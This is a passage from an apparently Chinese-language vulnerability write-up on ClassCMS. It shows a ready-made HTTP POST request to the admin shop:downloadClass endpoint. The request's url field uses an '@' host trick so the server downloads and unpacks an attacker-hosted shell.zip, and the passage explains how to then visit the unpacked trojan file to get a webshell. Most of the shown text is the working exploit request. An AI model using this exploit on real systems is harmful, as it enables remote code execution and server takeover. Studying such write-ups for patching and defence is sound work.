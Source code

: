 ```


就说明已经成功被下载到目标服务器上并解压



最后访问url即可执行上传上的木马getshell



http://ip/class/{classhash的值}/{上传压缩包中的木马文件}
```

我们安装上面的格式修改数据包上传一个木马文件

先在网站根目录创建一个木马文件，然后把他压缩成压缩包<br/>  

然后再重新构建第二个数据包​​​​​​​

```
//第二个数据包



POST /admin666?do=shop:downloadClass&amp;ajax=1 HTTP/1.1

Host: classcms

Content-Length: 85

Accept: application/json, text/javascript, */*; q=0.01

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Origin: http://192.168.159.1

Referer: http://192.168.159.1/ClassCMS/admin666?do=shop:index&amp;bread=%E5%BA%94%E7%94%A8%E5%BC%80%E5%8F%91&amp;action=detail&amp;classhash=classcreate

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Cookie: token_2ab421=5d012ca838cc5f0aff02c44c8e2c91e7; csrf_2ab421=b472e230

Connection: close



classhash=shell&amp;url=http://@192.168.12.144:80@classcms.com/shell.zip&amp;csrf=338ceb00
```
